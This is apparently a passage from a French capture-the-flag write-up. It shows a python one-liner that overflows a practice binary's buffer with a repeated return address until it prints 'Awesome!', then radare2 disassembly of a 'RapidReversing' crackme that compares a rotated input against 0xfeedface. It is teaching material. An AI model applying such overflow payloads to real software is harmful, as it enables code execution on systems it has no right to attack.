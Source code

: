 ```plain
$ ./overflow `python -c "print '\xad\x84\x04\x08'*10"`
Hello ����������!
Erreur de segmentation
```

Il ne reste qu'à trouver le bon alignement :  

```plain
$ ./overflow A`python -c "print '\xad\x84\x04\x08'*10"`
Hello A����������!
Erreur de segmentation
$ ./overflow AA`python -c "print '\xad\x84\x04\x08'*10"`
Hello AA����������!
Awesome!
Awesome!
Awesome!
Awesome!
Erreur de segmentation
```

### RapidReversing

```plain
$ ./rapidreversing 
Give me one arg!
$ ./rapidreversing abcd
Nope.
```

Le code assembleur qui nous intéresse (ici désassemblé avec *radare2*) dans le main() est le suivant :  

```asm
 `-> 0x08048372    8b450c       mov eax, dword [ebp + 0xc] ; [:4]=0
     0x08048375    c74424080a0. mov dword [esp + 8], 0xa ; [:4]=0
     0x0804837d    c7442404000. mov dword [esp + 4], 0 ; [:4]=0x10100
     0x08048385    8b4004       mov eax, dword [eax + 4] ; [:4]=0x10100
     0x08048388    890424       mov dword [esp], eax
     0x0804838b    e8b0ffffff   call sym.imp.strtol
        sym.imp.strtol()
     0x08048390    8944241c     mov dword [esp + 0x1c], eax ; [:4]=52
     0x08048394    8b54241c     mov edx, dword [esp + 0x1c] ; [:4]=52
     0x08048398    8b44241c     mov eax, dword [esp + 0x1c] ; [:4]=52
     0x0804839c    c1e20b       shl edx, 0xb
     0x0804839f    c1e815       shr eax, 0x15
     0x080483a2    09d0         or eax, edx
     0x080483a4    8944241c     mov dword [esp + 0x1c], eax ; [:4]=52
     0x080483a8    8b44241c     mov eax, dword [esp + 0x1c] ; [:4]=52
     0x080483ac    3dcefaedfe   cmp eax, 0xfeedface
,==< 0x080483b1    7410         je 0x80483c3
|    0x080483b3    c704249a850. mov dword [esp], str.Nope.
|    0x080483ba    e851ffffff   call sym.imp.puts ; (fcn.0804830c)
|       fcn.0804830c() ; sym.imp.puts
|    0x080483bf    31c0         xor eax, eax
|    0x080483c1    c9           leave
|    0x080483c2    c3           ret
|    ; JMP XREF from 0x080483b1 (unk)
`--> 0x080483c3    c7042480850. mov dword [esp], str.Awesome_
     0x080483ca    e841ffffff   call sym.imp.puts ; (fcn.0804830c)
```
